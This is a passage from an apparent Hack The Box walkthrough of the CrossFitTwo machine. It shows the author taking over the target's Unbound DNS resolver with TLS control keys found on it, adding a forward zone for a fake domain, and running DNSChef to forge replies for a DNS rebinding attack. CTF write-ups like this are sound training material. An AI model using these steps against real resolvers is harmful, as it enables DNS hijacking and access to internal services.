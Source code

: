Several interesting things over here. We are unable to read the included file because of read permissions on the system.
We got some keys in the /var/unbound/etc/tls route, so we should get them and save those keys.
The unbound_server.key is empty.

Creating a new unbound config file for this case only.

```bash
remote-control:
    control-enable: yes
    control-interface: 0.0.0.0
    control-use-cert: yes
    server-key-file: "/home/kali/HTB/Machines/CrossFitTwo/scripts/unb/unbound_server.key"
    server-cert-file: "/home/kali/HTB/Machines/CrossFitTwo/scripts/unb/unbound_server.pem"
    control-key-file: "/home/kali/HTB/Machines/CrossFitTwo/scripts/unb/unbound_control.key"
    control-cert-file: "/home/kali/HTB/Machines/CrossFitTwo/scripts/unb/unbound_control.pem"
```

So, now the `unbound-control` command works fine.

```bash
❯ unbound-control -c crossfit_unbound.conf -s 10.10.10.232@8953 status
version: 1.18.0
verbosity: 1
threads: 1
modules: 2 [ validator iterator ]
uptime: 224 seconds
options: control(ssl)
unbound (pid 2776) is running...
```

With this working, we should be able to do a DNS rebind, all thanks to the wildcard that lies in the relayd.conf.

We will configure a new and fake domain to the server that we will take advantage of. We will call it not-employees.crossfit.htb. 🙂

```bash
❯ unbound-control -c crossfit_unbound.conf -s 10.10.10.232@8953 forward_add +i not-employees.crossfit.htb 10.10.X.X@53
ok
```

Haha, OK.

So we set up a DNS proxy, in this case i will set DNSChef.

```bash
❯ sudo dnschef --fakedomains not-employees.crossfit.htb --fakeip 10.10.X.X -i 10.10.X.X
/usr/bin/dnschef:453: SyntaxWarning: invalid escape sequence '\/'
  header += "      / _` | '_ \/ __|/ __| '_ \ / _ \  _|\n"
/usr/bin/dnschef:454: SyntaxWarning: invalid escape sequence '\_'
  header += "     | (_| | | | \__ \ (__| | | |  __/ |  \n"
/usr/bin/dnschef:455: SyntaxWarning: invalid escape sequence '\_'
  header += "      \__,_|_| |_|___/\___|_| |_|\___|_|  \n"
          _                _          __  
         | | version 0.4  | |        / _| 
       __| |_ __  ___  ___| |__   ___| |_ 
      / _` | '_ \/ __|/ __| '_ \ / _ \  _|
     | (_| | | | \__ \ (__| | | |  __/ |  
      \__,_|_| |_|___/\___|_| |_|\___|_|  
                   iphelix@thesprawl.org  

(19:09:03) [*] DNSChef started on interface: 10.10.X.X
(19:09:03) [*] Using the following nameservers: 8.8.8.8
(19:09:03) [*] Cooking A replies to point to 10.10.X.X matching: not-employees.crossfit.htb
```
